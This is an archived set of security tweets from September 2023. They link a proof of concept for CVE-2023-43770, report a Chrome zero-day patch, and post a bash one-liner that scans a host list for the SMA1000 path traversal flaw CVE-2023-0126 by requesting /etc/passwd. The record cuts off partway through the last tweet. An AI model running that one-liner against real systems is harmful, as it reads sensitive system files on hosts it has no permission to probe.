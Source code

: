 
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1707274960434328021 _at 2023-09-28, 06:04:04_**
<blockquote>
GitHub - s3cb0y/CVE-2023-43770-POC: A Proof-Of-Concept for the CVE-2023-43770 vulnerability. - https://t.co/0tSLo2vC2G
</blockquote>

* https://github.com/s3cb0y/CVE-2023-43770-POC

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# thecybertix
**https://twitter.com/thecybertix/status/1707268135907475495 _at 2023-09-28, 05:36:57_**
<blockquote>
CVE-2023-0126 Pre-authentication path traversal vulnerability in SMA1000

One Liner
cat file.txt| while read host do;do curl -sk "http://$host:8443/images//////////////////../../../../../../../../etc/passwd" | grep -i 'root:' &amp;&amp; echo $host "is VULN";done

#bugbountytips #bug #CVE https://t.co/shFnrXWTX5
</blockquote>

<table><tr>
<td><img src="pictures/aff7f4b3824603f53cf188d4e3ff2bac8de1ac4e66eaebba62607aa581e873ad.jpg" alt="aff7f4b3824603f53cf188d4e3ff2bac8de1ac4e66eaebba62607aa581e873ad.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>126</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1707232255364448394 _at 2023-09-28, 03:14:23_**
<blockquote>
🚨 Urgent Update: #Google has released a Chrome update to patch a new high-severity zero-day #vulnerability (CVE-2023-5217) that is being exploited in the wild.

Read: https://t.co/LJNdD2BJHi
